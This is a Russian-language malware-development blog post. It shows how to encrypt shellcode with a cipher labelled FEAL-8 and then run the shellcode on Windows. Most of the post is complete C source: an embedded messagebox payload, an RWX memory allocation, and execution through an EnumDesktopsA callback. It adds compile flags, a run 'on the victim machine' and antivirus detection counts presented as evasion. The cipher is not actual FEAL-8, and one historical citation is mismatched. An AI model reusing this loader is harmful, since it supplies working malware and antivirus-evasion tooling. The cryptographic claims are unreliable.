




\newpage
\subsection{95. Исследование вредоносного ПО и криптографии - часть 4 (32): Шифрование полезной нагрузки с помощью алгоритма FEAL-8. Простой пример на C.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}     

Этот пост является результатом моего собственного исследования использования блочного шифра *FEAL-8* в разработке вредоносного ПО. Как обычно, исследуя различные криптоалгоритмы, я решил проверить, что будет, если использовать этот метод для шифрования/дешифрования полезной нагрузки.    

### FEAL

Этот алгоритм был разработан Акихиро Шимизу и Сёдзи Миягути из NTT Japan. Он использует `64`-битные блоки и `64-bit` ключ. Основной целью было создание алгоритма, аналогичного DES, но с более сильной раундовой функцией. Предполагалось, что алгоритм сможет работать быстрее за счет меньшего количества раундов. Однако реальность не оправдала задуманные цели.     

Процедура шифрования начинается с `64`-битного блока открытого текста. Вначале блок `XOR`-ится с `64`-битным ключом. Затем данные разделяются на левую и правую половины. Левая половина комбинируется с правой, формируя новую правую половину. Далее обе половины проходят `n` раундов (первоначально четыре). В каждом раунде правая половина комбинируется с `16`-битным ключевым материалом (через функцию `F`), затем `XOR`-ится с левой половиной, образуя новую правую половину. Новая левая половина формируется из оригинальной правой половины (до раунда). После `n` раундов (без обмена местами после последнего раунда) левая половина `XOR`-ится с правой, формируя новую правую половину, после чего данные снова `XOR`-ятся с `64`-битным ключом перед завершением алгоритма.     

### практический пример

Прежде всего, нам нужна функция `rotl`:    

```cpp
// rotate left 1 bit
uint32_t rotl(uint32_t x, int shift) {
  return (x << shift) | (x >> (32 - shift));
}
```

Эта функция выполняет циклический сдвиг влево для `32`-битного беззнакового целого числа (`x`). Она сдвигает биты `x` влево на указанное количество позиций (`shift`), при этом биты, вышедшие за пределы, перемещаются вправо. Циклические сдвиги часто используются в криптографических алгоритмах для усиления диффузии и маскировки паттернов в данных.     

Далее, функция `F`:    

```cpp
uint32_t F(u32 x1, u32 x2) {
  return rotl((x1 ^ x2), 2);
}
```

Эта функция является основным элементом смешивания в алгоритме `FEAL-8`. Она принимает два `32-bit` значения (`x1` и `x2`), выполняет побитовое `XOR` (`^`) и затем сдвигает результат влево на `2`-бита с использованием `rotl`. Это повышает нелинейность процесса шифрования.     

Далее, функция `G`:    

```cpp
// function G used in FEAL-8
void G(uint32_t* left, uint32_t* right, uint8_t* roundKey) {
  uint32_t tempLeft = *left;
  *left = *right;
  *right = tempLeft ^ F(*left, *right) ^ *(uint32_t*)roundKey;
}
```

Функция `G` - основная трансформационная функция в каждом раунде `FEAL-8`. Она работает с левыми и правыми половинами блока данных. Выполняет следующие шаги:    
- Сохраняет левую половину (`tempLeft`).     
- Устанавливает левую половину равной правой (`*left = *right`).     
- Обновляет правую половину с помощью `XOR` оператора над `tempLeft`, результатом `F` и раундовым ключом.     

Эта функция выполняет ключевые преобразования в каждом раунде `FEAL-8`, обеспечивая необходимую диффузию и запутывание данных. Операции `XOR` и `F` способствуют смешиванию данных, делая шифрование устойчивым к атакам.     

Функция генерации ключей создает серию подключей для каждого из `8`-раундов `FEAL-8`. В каждом раунде выполняется операция `XOR` между каждым байтом ключа и суммой индекса раунда (`i`) и индекса байта (`j`):     

```cpp
// key schedule for FEAL-8
void key_schedule(uint8_t* key) {
  for (int i = 0; i < ROUNDS; i++) {
    for (int j = 0; j < 8; j++) {
      K[i][j] = key[j] ^ (i + j);
    }
  }
}
```

Далее, логика шифрования:    

```cpp
// FEAL-8 encryption function
void feal8_encrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of encryption
  for (int i = 0; i < ROUNDS; i++) {
    G(&left, &right, K[i]);
  }

  // final swapping of left and right
  block[0] = right;
  block[1] = left;
}
```

Эта функция выполняет шифрование `FEAL-8` для `64`-битного блока данных (разделенного на две `32`-битные половины: `left` и `right`). Она выполняет `8`-раундов шифрования, применяя `G` функцию с соответствующим подключом в каждом раунде.    

Логика дешифрования:     

```cpp
// FEAL-8 decryption function
void feal8_decrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of decryption in reverse
  for (int i = ROUNDS - 1; i >= 0; i--) {
    G(&left, &right, K[i]);
  }

  // final swapping of left and right
  block[0] = right;
  block[1] = left;
}
```

И логика шифрования и дешифрования шеллкода:

```cpp
// function to encrypt shellcode using FEAL-8
void feal8_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    feal8_encrypt(ptr, key);
    ptr += 2;
  }
  // handle remaining bytes by padding with 0x90 (NOP)
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
    memcpy(pad, ptr, remaining);
    feal8_encrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}

// function to decrypt shellcode using FEAL-8
void feal8_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    feal8_decrypt(ptr, key);
    ptr += 2;
  }
  // handle remaining bytes with padding
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
    memcpy(pad, ptr, remaining);
    feal8_decrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}
```

Первая функция отвечает за шифрование предоставленного шелл-кода (`meow-meow` messagebox в нашем случае) с использованием шифрования `FEAL-8`. Она обрабатывает шелл-код в `64-bit` блоках (`8`-байтовых), и если есть какие-либо оставшиеся байты, которые не помещаются в полный блок, она дополняет их `0x90` (`NOP`) перед шифрованием.

Наконец, функция `main` демонстрирует шифрование, дешифрование и выполнение шелл-кода с использованием `FEAL-8`.

Как обычно, я использовал полезную нагрузку `meow-meow` messagebox:

```cpp
unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

и расшифрованная полезная нагрузка выполняется с помощью функции `EnumDesktopsA`.

Полный исходный код выглядит так (`hack.c`):

```cpp
/*
 * hack.c
 * encrypt/decrypt payload via FEAL-8 algorithm
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/09/12/malware-cryptography-32.html
 */

#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 8    // FEAL-8 uses 8 rounds of encryption
#define BLOCK_SIZE 8  // FEAL-8 operates on 64-bit (8-byte) blocks

// subkeys generated from the main key
uint8_t K[ROUNDS][8];

// rotate left 1 bit
uint32_t rotl(uint32_t x, int shift) {
  return (x << shift) | (x >> (32 - shift));
}

// function F used in FEAL-8
uint32_t F(uint32_t x1, uint32_t x2) {
  return rotl((x1 ^ x2), 2);
}

// function G used in FEAL-8
void G(uint32_t* left, uint32_t* right, uint8_t* roundKey) {
  uint32_t tempLeft = *left;
  *left = *right;
  *right = tempLeft ^ F(*left, *right) ^ *(uint32_t*)roundKey;
}

// key schedule for FEAL-8
void key_schedule(uint8_t* key) {
  for (int i = 0; i < ROUNDS; i++) {
    for (int j = 0; j < 8; j++) {
      K[i][j] = key[j] ^ (i + j);
    }
  }
}

// FEAL-8 encryption function
void feal8_encrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of encryption
  for (int i = 0; i < ROUNDS; i++) {
    G(&left, &right, K[i]);
  }

  // final swapping of left and right
  block[0] = right;
  block[1] = left;
}

// FEAL-8 decryption function
void feal8_decrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of decryption in reverse
  for (int i = ROUNDS - 1; i >= 0; i--) {
    G(&left, &right, K[i]);
  }

  // final swapping of left and right
  block[0] = right;
  block[1] = left;
}

// function to encrypt shellcode using FEAL-8
void feal8_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    feal8_encrypt(ptr, key);
    ptr += 2;
  }
  // handle remaining bytes by padding with 0x90 (NOP)
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
    memcpy(pad, ptr, remaining);
    feal8_encrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}

// function to decrypt shellcode using FEAL-8
void feal8_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    feal8_decrypt(ptr, key);
    ptr += 2;
  }
  // handle remaining bytes with padding
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
    memcpy(pad, ptr, remaining);
    feal8_decrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (BLOCK_SIZE - my_payload_len % BLOCK_SIZE) % 
  BLOCK_SIZE;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);  // pad with NOPs
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  uint8_t key[8] = { 0x12, 0x34, 0x56, 0x78, 0x9A, 0xBC, 0xDE, 0xF0 };

  feal8_encrypt_shellcode(padded, pad_len, key);

  printf("encrypted shellcode:\n");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  feal8_decrypt_shellcode(padded, pad_len, key);

  printf("decrypted shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  // allocate and execute decrypted shellcode
  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;
}
```

Таким образом, этот пример демонстрирует, как использовать алгоритм шифрования `FEAL-8` для шифрования и дешифрования полезной нагрузки. Для проверки корректности добавлена логика вывода данных.      

### демонстрация

Давайте посмотрим, как все работает на практике. Компилируем код (на моей `linux`-машине):    

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc
```

{width="80%"}      

Затем запускаем его на машине жертвы (`windows 11 x64` в моем случае):    

```powershell
.\hack.exe
```

{width="80%"}      

Как можно видеть, все работает идеально! =^..^=     

Рассчитаем энтропию по Шеннону:    

```bash
python3 entropy.py -f hack.exe
```

{width="80%"}      

Наша полезная нагрузка находится в `.text` секции.    

Загружаем этот `hack.exe` в VirusTotal:    

{width="80%"}      

[https://www.virustotal.com/gui/file/08a7fba2d86f2ca8b9431695f8b530be7ad546e3f7467978bd6ff003b7f9508c/detection](https://www.virustotal.com/gui/file/08a7fba2d86f2ca8b9431695f8b530be7ad546e3f7467978bd6ff003b7f9508c/detection)    

**Как можно видеть, только 25 из 74 антивирусных движков определяют файл как вредоносный.**     

### криптоанализ

Исторически сложилось так, что `FEAL-4`, четырехраундовый `FEAL`, был успешно взломан с помощью атаки на основе выбранного открытого текста еще до его распространения. Позже метод Шона Мерфи стал первой известной атакой с использованием дифференциального криптоанализа, требовавшей всего `20` выбранных открытых текстов. Разработчики ответили, представив `8`-раундовый `FEAL`, который был взломан Бихамом и Шамиром на конференции `SECURICOM '89` (*A. Shamir and A. Fiat, "Method, Apparatus and Article for Identification and Signature," U.S. Patent #4,748,668, 31 May 1988*). Другая атака на `FEAL-8` (*H. Gilbert and G. Chase, "A Statistical Attack on the Feal–8 Cryptosystem," Advances in Cryptology-CRYPTO’90 Proceedings, Springer–Verlag, 1991, pp. 22–33*), использующая всего `10,000` блоков, заставила разработчиков отказаться от алгоритма и определить `FEAL-N`, с переменным числом раундов (конечно, больше `8`).     

Бихам и Шамир использовали дифференциальный криптоанализ, чтобы взломать `FEAL-N` быстрее, чем полный перебор (`2^64` выбранных открытых текстов) для `N < 32`. Для `FEAL-16` требовалось `2^28` выбранных открытых текстов или `2^46.5` известных открытых текстов. `FEAL-8` можно было взломать, используя `2000` выбранных открытых текстов или `2^37.5` известных открытых текстов. `FEAL-4` можно было взломать всего за восемь специально подобранных открытых текстов.     

Надеюсь, этот пост будет полезен исследователям вредоносного ПО, C/C++ программистам, повысит осведомленность синих команд об этой интересной технике шифрования и добавит оружие в арсенал красных команд.

[FEAL-8 encryption](https://en.wikipedia.org/wiki/FEAL)      
[Malware and cryptography 1](https://cocomelonc.github.io/malware/2023/08/13/malware-cryptography-1.html)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2024-09-12-malware-cryptography-32)    
